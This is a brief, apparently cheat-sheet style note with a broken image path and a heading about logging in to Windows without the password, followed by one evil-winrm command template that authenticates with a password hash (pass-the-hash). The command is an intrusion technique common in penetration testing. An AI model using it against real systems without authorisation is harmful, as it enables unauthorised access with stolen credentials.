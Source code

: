 # Log in without hash The password in windows

evil-winrm -i <Ip Address> -u <username> -H <hashedPassword>
